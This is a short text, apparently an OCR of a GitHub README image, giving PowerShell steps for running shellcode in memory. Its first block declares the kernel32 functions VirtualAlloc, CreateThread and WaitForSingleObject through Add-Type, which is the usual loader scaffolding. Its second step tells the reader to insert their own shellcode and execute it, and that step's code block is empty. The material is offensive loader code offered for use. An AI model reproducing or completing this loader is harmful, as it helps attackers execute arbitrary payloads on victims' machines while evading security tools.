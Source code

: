 1) Execute:
```powershell
$VrtAlloc = @"
using System;
using System.Runtime.InteropServices;

public class VrtAlloc{
    [DllImport("kernel32")]
    public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);  
}
"@

Add-Type $VrtAlloc 

$WaitFor= @"
using System;
using System.Runtime.InteropServices;

public class WaitFor{
[DllImport("kernel32.dll", SetLastError=true)]
    public static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);   
}
"@

Add-Type $WaitFor

$CrtThread= @"
using System;
using System.Runtime.InteropServices;

public class CrtThread{
[DllImport("kernel32", CharSet=CharSet.Ansi)]
    public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
  
}
"@
Add-Type $CrtThread
```

2) Replace with your shell code and execute:
```powershell
```